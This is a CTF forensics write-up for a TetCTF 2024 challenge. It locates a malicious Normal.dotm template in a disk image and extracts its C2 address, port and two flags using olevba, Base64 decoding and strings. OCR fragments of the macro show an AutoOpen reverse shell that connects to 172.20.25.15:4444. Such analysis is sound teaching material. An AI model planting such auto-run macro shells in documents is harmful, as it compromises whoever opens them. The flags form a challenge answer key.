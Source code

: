 # TET & 4N6
> Tet is coming, TetCTF is coming again. Like every year, I continued to register to play CTF, read the rules to prepare for the competition. After reading the rules, my computer seemed unusual, it seemed like it was infected with malicious code somewhere. Can you find out?
> Find the malicious code and tell me the IP and Port C2
> What was the first flag you found?
> After registering an account, I no longer remember anything about my account. Can you help me find and get the second flag?
> Format : TetCTF{IP:Port_Flag1_Flag2}

> Ex: TetCTF{1.1.1.1:1234_Hello_HappyForensics}

## About the Challenge
We got 2 files, `Backup.ad1` and `TETCTF-2024-20240126-203010.raw` and we need to find the malicious code, first flag, and the second flag from these 2 forensic artefacts

## How to Solve?

First, we need to find the malicious code. If we open the `Backup.ad1` file using FTK Imager and go to `Roaming/Microsoft/Windows/`, you will find a dotm file.

And if you run `olevba` you will get the ip, port, and the first flag


[Image extracted text: [bash-3
2$
olevba
Normal.dotm
olevba
0.60 _
on
Python
3.10.13
http:/ /decalage.info/python/oletools
FILE:
Normal
dotm
Type:
OpenXML
WARNING
For
now
VBA
stomping
cannot
be
detected
for
files
in memory
VBA
MACRO
ThisDocument
cls
in
file:
word
vbaProject.bin
OLE
stream:
VBA/ ThisDocument
(empty
macro)
VBA
MACRO
NewMacros
bas
in
file:
word/vbaProject.bin
OLE
stream:
VBA
NewMacros
Coppy
Const
ip
"172.20.25.15"
Const port
"444l
Const
INVALID_SOCKET
-1
Const
WSADESCRIPTION
LEN
256
Const
SOCKET_ERROR
-1
Private
Type
WSADATA
WVersion
As Integer
WHighVersion
As Integer
szDescrintion( 0
To
WSADESCRIPTION
LEN)
As
Bvte]


And it the end of the VBA script, there is a Base64 encoded msg


[Image extracted text: Dim
test
As
Long
worked
CreateProc (
vbNullString,
cmd
ByVal
0& ,
ByVal
0& ,
True ,
&h8000000 ,
0 ,
vbNullString,
Si,
pi)
revShell
worked
End
Function
Public
Function
MAKEWORD ( Lo
As
Byte,
Hi
As
Byte)
As Integer
MAKEWORD
Lo
Hi
256&
Or
32768
* (Hi
127)
End
Function
Sub
AutoOpen( )
Dim
success
As
Boolean
success
revShell()
End
Sub
Vmxjd2VFNUhSa2RqUkZwVFZrWndTMVZOZUhkU1JsWlhWRmhvVIdGNlZrbFdSMZhQVkd4R1ZVMUVhejA9
[Type
Keyword
Description
AutoExec
AutoOpen
Runs
when
the
Word
document
is
opened
Suspicious
Call
call
DLL using
Excel
Macros
(XLMIXLF)
Suspicious
Lib
run
code
from
DLL
Suspicious |RtlMoveMemory
May
inject
code
into
another
process
Suspicious
Hex
Strings
Hex-encoded strings
were
detected,
may
be
used
to obfuscate strings
(option
decode
to
see
all)
IOC
172.20.25.15
IPvb
address
IOC
ws2_32.d11
Executable
file
name
May
May]



[Image extracted text: Recipe
Input
+ 0?
Vmxjd2VFNUhSaZRqUkZwVFZrWndTMVZOZUhkU JsWlhWRmhvVldGN ZrbFdSMZhQVkd4RIZVMUVhejAg
From Base64
Alphabet
A-Za-20-9+/=
Remove non-alphabet chars
Strict mode
From Base64
Alphabet
A-Za-20-9+/=
Remove non-alphabet chars
Strict mode
From Base64
Alphabet
ABC
80
TT
Raw Bytes
0
LF
A-Za-20-9+/=
Remove non-alphabet chars
Output
0 0 @ :
Strict mode
FFlag1:
VBA-M4cRO
From Base64
Alphabet
A-Za-20-9+/=
Remove non-alphabet chars
Strict mode]


And I managed to get the second flag using `strings` and `grep`

```
strings TETCTF-2024-20240126-203010.raw | grep "Flag 2"
```


[Image extracted text: [bash-3.2$ strings
TETCTF-2024-20240126-203010
raw
grep "Flag
2"
2 :
R3cOv3rry_34sy_Right?
@Flag
2: R3cOv3rry
Rlght?
Pastebin.com
2 :
R3cOv3rry_34sy_Right?
Pastebin. comE68F4487
2 :
R3cOvarry
Rlght?
Pastebin.com
C7s~
Doco J~r
3/
Fi
Dial+o+
Ie
Flag
34sy _
Flag
Flag
34sy]


```
TetCTF{172.20.25.15:4444_VBA-M4cR0_R3c0v3rry_34sy_R1ght?}
```